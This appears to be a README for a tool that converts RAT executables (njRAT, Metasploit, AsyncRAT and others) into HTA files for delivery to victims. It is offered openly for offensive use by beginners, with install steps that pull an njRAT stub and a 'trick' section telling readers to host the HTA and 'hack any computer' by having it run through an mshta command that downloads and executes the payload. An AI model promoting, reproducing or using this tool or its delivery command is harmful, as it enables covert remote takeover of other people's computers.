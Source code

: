 ### Welcome to EXE>HTA Converter tool version 1.00

This tool will convert EXE file to HTA extension it's very simple to use, and a lot faster.

<img src="screenshots/Start.jpg" width=400 align="center">

<img src="screenshots/Payload.jpg" width=400 align="center">

<img src="screenshots/Finish.jpg" width=400 align="center">

### ❗ What is this ?

EXE>HTA is a tool that automate procedures during converting a payload from EXE into HTA extension. It works with njRAT & Metasploit and someother RAT's. This tool was made for Windows users.

Video Proof: https://youtu.be/3xzOEhswhnw

### ⚙️ FEATURES

- Convert EXE to HTA
- Compatible with njRAT
- Compatible with Metasploit
- Compatible with AsyncRAT
- Compatible with RevengeRAT
- Compatible with Lime-RAT & a lot more...
- Easy to use & it doesn't need knowledge

### 📖 HOW TO INSTALL

1. Donwload & install python3 ('https://www.python.org/downloads/')
2. Download 'njRAT C# Stub' from github ('git clone https://github.com/NYAN-x-CAT/njRAT-0.7d-Stub-CSharp')
2. Download the tool
3. Unzip the file
4. Open the EXETOHTA.exe file
4. Select your python.exe path
5. Select your payload.exe path
6. press CONVERT button.

To learn more please watch this video: https://youtu.be/3xzOEhswhnw

### 📡 HOW TO UPDATE

You can check updates from our official website:
https://ctoslab.com/products/


For feature recommendation please add it on the "Issues" tab or contact us:
https://www.ctoslab.com/support/

### 💡 Bonus Useful Tricks! (For Beginners)

You can upload 'output.hta' to a file uploader website (ex. zippyshare, upload.ee ...) and hack any computer using only OneLineCode.
Exemple:
Press START+R to open Run
And write: mshta exemple.com/payload.hta
It will download and execute the payload automatically.

### 💰 Donate

If you like my work, consider buying me a coffee :)

Bitcoin > 12ZGhmVWi8QboVoExWjUFinyJpaKLqAmHN

⚠️ We are not responsible on how you use this tool. 

